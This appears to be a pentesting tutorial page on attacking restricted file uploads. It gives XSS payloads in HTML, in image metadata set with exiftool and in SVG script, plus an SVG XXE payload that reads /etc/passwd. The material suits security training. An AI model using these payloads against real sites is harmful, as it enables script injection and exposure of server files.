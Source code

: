 
# Limited File Uploads

## Overview
Even if a file upload form only allows specific file types (non-arbitrary uploads), it may still be possible to exploit vulnerabilities through allowed file types like SVG, HTML, XML, and certain image/document files. These attacks can introduce new vulnerabilities to the web application.

---

## XSS (Cross-Site Scripting)
### Exploiting HTML Uploads
HTML files can contain JavaScript code, enabling XSS or CSRF attacks when the uploaded file is accessed. For example:

```html
<script>alert('XSS');</script>
```

### Exploiting Image Metadata
Some web applications display image metadata, which can be exploited by inserting XSS payloads:

```bash
exiftool -Comment='"><img src=1 onerror=alert(window.origin)>' HTB.jpg
```
- Upload the modified image and verify if the metadata triggers the payload.
- Change the MIME-Type to `text/html` for additional attack vectors.

### Exploiting SVG Files
SVG images support embedded JavaScript within their XML data. Example SVG payload:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
Upload this SVG file to trigger the XSS payload when the image is displayed.

---

## XXE (XML External Entity)
### Exploiting SVG with XXE
SVG files can include malicious XML data to read sensitive files. Example to read `/etc/passwd`:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
- Upload the file and check if the content of `/etc/passwd` is displayed.
